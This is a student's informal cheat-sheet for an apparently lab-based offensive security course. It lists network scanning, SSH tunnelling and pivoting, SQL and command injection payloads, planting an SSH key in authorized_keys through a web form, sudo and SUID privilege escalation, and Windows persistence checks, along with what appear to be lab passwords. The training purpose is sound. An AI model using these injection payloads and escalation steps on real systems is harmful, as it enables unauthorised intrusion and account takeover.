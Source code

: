 # SecCCTC
NEW Security CCTC


OP station LINUX 10.50.21.175 

uploads 10.50.22.59/uploads for more info
______________________________
17
JORO-501-W
Bhe032390!!
10.50.23.20 < -jump box 

____________________________

http://10.50.20.103:8000/challenges  < -- - challenges 



Needed commands
_______________________________________________________
1- for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
2- proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5   or -iL --openm
3- proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse    < -- finds other webpages

xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboar
___________________________________________

make a SSH KEY 

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rua.pub
ssh www-data@ip  ( or whatever the webuser is)
9- find the userers in the /etc/password then navigate down to find the file with ls -la 
10 - move the map to the host system 

try to insert an your own key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>  or other path
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 


  -______________________________________
  to get to second box student@ip -L 41711:192.168.28.120:4242
  then new tunnle of ssh student@127.0.0.1 -D 9050 




__________________________________________________________________
        Windows Priv esculation: Importatant to know
===First THING TO DO IS SHOW HIDDEN FILES!====
	File Explorer > File > Hidden files4624/4625
 	Always use ls -la

Next: Search: ==Task Scheduler===
	search bar > Task Scheduler  > new tasks are listed at top > Look in TS Library ..ignore one_drive stuff > Look at TRIGGERS Tab > Actions tab >  
 		 OR  schtasks /query /fo LIST /v  > powershell  >schtasks /query /fo LIST /v  | Select-String  -Pattern "Task To Run" | find /i /v "com handler"  > Start at the top look for putty.exe
    
Next: == Check Processes==
    	tasklist /v > note the PID (2222 or whatever) > query session > look at what your number session is > go back and view the tasklist /v | what you found > wmic process get name, processid, parentproessid, sessionid > scroll up to find the process you noted write down the parant process > wmic process ,where (processid=2222) list full > Do the same with the parent process you wrote > tasklist /svc | findsr /i "parent process you found" > find the location with <where /R c:\putty.exe>

Next == Services==
	look under services  > sort by discription > look for blank space > right click properties > look under all tabs > use for the ""for /f  "tokens"" command > use wimic command next > OR sc qc testservice2

 Next: == registry==   registry editor
 	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
  	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\
   make sure to double click on stuff to see whole path

Next: == Audit Logging ==
auditpol /get /category:* | findstr /i "success failure"

LOOK AT EVENT ID'S 
	4624/4625 - Successful / failed login
 	4720 - Account Created
  	4672  - Administrative user logged on
   	7045 - Service created

Next: == Event Viewer ==
	

xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard



___________________________________________________________________




FOR TEST
When given an IP
1 - <nmap -Pn -sT 10.0.0.X -p- -T5 >any ip that is given (Pivot box) 
2 – any port 80s or http ports run : proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse  to find extra webpages
3- Try all /webstuff	
	    /more webstuff
		/lostawebstuff
  ____________________________________________________________________________________________________________________________
  ONCE ON A WEBPAGE
4- The  Box that has inputs : hit go button. Then past in the Possible_end.txt in one box / To_war in another grab info for flag,
5- On the same box, command inject one of them try: ; ls -la || ; /whoami  || ; pwd  || ; cat /etc/passwd || ; cat /etc/hosts
6- grab all users from the cated etc/passwd and save them someplace (www-var ect) 
7 – try to insert an your own PUB_key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 
8- from your Lin_ops box you should be able to <ssh user@ip> without a password
***********Note: I would suggest making a new key: <ssh-keygen -t rsa> ************
__________________________________________________________________________________________________________________________

IF YOU FIND THE MAP WITH IP ADDRESS.. Make sure to EOM or scp the map to view
9- look at the map that you found for IP address.  Located at the bottom of the mad (Hint: there is also a flag)
__________________________________________________________________________________________________________________________

Tunnleing creationg and scanning for the new IPs
10 – Create a Dynamic tunnel so you can scan those IP’s (optional) IF not go to step 11. (ssh www-data@ip -D 9050)
11 – run <for i in {96..127}; do (ping -c 1 10.0.0.$i | grep "bytes from" &); done> in pivot box you got into for each IP address. (www-data box)
12 – run proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5 on each of the new IP’s you found. Notate any ports then run step 2 to see if there is any info for any webpages found 
13 – navigate to the new wepage and repeat step 3 
14 – Look at <page  sources> for any links as well
15 – if you come across a box that looks like it is a table: Try eploiting the URL Bar:
	A-	First try <coolwebsite.com.php? selection=1 Or 1=1> or 2 or 3 ect until tables ALL drop
	B-	Any columns displayed, put them in order <selection=<# your found> UNION SELECT 1,2,3 ect>
	C-	Use the GOLDEN STATEMENT < SELECT table_schema,table_name,column_name, 4 FROM information_schema.columns;>
 __________________________________________________________________________________________________________________________

 
PART 2
1 – In your Lin-OPS TRY EVERY COMBINATION AND PASSEORD that is given!! You should get 
A-	Linux box
B-	Windows box
_______________________________________________________________________________________


WINDOWS BOX:  FOLLOW THE WINDOWS STEPS ABOVE Line 51
1-	to access the Windows box first run a scan on the IP address that is given <step 11>
2-	run an NMAP on each new IP you found <step 1>
3-	find the box the you logged into as a windows user, look for the port that can run RDP (3889)
4-	RDP into that box 
____________________________________________________________________________________________________
a.	Set up your L tunnel <ssh www-data@jumpIP -L 1111:WinBoxIP:3389>
b.	xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard
5-	Look around for files in USERS. Go to < C drive >> Users > Look for a sus folder
6-	For Persistence  check the regedit < search bar – regedit – follow the HKEY path  -- look at all the paths there and make sure to copy the ENTIRE path of the sus one. The file path is the last </name.here>
7-	For Called Program, follow the path:  <C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -executionpolicy bypass -windowstyle hidden -NoExit -file "C:\Program Files\scripts\kpersky_start.ps1">
8-	To get into admin home: You need to grab the file that they will give us and transfer it from your HOST to your WINDOWS: (Log into your account and download it)
	a.	On the windows box, open a webpage, navigate to the test website, download file. DONE use the account name and pass they give ya
____________________________________________________________________________________________________

Linux Explotaition
192.168.28.10 Kmichae pass MrMeeseeks 
1- sudo -l  < -- if this works goto GTFO webpage and search for the exploit! Copy past exploit then type <bash> for a esculated shell.
2 –<Bash> then ls -la 
3 you will see exploit.this
4- ./exploitthis AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
____________________________________________________________________________________________________

For inside root dir, 
1-	Log in as the user, 
2-	Sudo -l 
3-	Look for set UID and GUID
4-	Use the  find / -perm command <command here>
5-	A list of binaries will show
6-	On linops, run the same exact command and compare both of them Find the one that is not on one of the systems
7-	Then go to GTFO and look up that one and reserc the exploit
8-	 Make sure you do the intire path -p 
5 – Next follow buffer overflow steps.
For what program can give you higher priv, mak sure you find the buffer overflow  file in one of the questions

1-	To see what is inside the root dierectory
2-	2 find what Binary used 
POST exploitation
	1 – To view running process <ps -elf > look for one that ryscslogd
3-	Cat /ect/rcyslog.conf  for flag in comments
4-	To find the password use the find command find / iname “password” -file the cat the full path to file 

